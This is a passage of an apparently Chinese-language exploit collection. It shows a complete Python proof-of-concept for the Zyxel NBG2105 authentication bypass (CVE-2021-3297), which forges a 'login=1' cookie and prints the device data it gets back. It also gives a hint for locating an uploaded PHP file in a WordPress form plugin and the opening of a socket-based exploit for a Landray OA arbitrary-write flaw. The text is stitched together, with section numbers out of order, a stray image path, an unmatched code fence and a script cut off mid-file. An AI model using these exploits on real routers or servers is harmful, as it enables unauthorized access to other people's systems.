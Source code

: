 /wp-content/uploads/superforms/2021/01/<id>/filename.php4
u can get <id> from server reply .



0x36 Zyxel NBG2105身份验证绕过


POC & EXP



import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAVSWQ5iaOeqr99obI4YgAhGPD2Dxwaic258Rw96fp2ia5WTicxOiaEAstWew/640)

### 0x11 蓝凌 OA 任意写入漏洞

**POC**

```
import socket
import os
import sys
import struct
import time
if len(sys.argv) < 2:
    print 'Usage: python %s <TARGET_HOST> <PORT>' % os.path.basename(sys.argv[0])
    sys.exit()
 